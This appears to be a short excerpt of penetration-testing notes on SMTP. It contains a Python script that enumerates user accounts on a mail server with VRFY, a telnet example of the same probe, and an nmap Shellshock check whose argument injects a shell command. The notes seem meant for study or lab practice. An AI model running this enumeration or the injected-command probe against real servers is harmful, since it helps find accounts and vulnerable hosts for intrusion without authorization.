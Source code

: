 
    import socket
    import sys
    
    if len(sys.argv) != 3:
        print("Usage: vrfy.py <username> <target_ip>")
        sys.exit(0)
    
    # Create a Socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # Connect to the Server
    ip = sys.argv[2]
    connect = s.connect((ip,25))
    
    # Receive the banner
    banner = s.recv(1024)
    print(banner)
    
    # VRFY a user
    user = (sys.argv[1]).encode()
    s.send(b&#39;VRFY &#39; + user + b&#39;\r\n&#39;)
    result = s.recv(1024)
    print(result)
    
    # Close the socket
    s.close()
    

**Installing Telnet Client for Windows**

    dism /online /Enable-Feature /FeatureName:TelnetClient
    
    # Interaction Example
    C:\Windows\system32>telnet 192.168.123.8 25
    220 mail ESMTP Postfix (Ubuntu)
    VRFY testUser
    550 5.1.1 <testUser>: Recipient address rejected: User unknown in local recipient table
    VRFY root
    252 2.0.0 root
    

**Exploitation with SMTP Postfix Shellshock Exploit**

    # Check if vulnerable
    nmap -sV -p [port] --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=echo\;/bin/ls [ip]
                    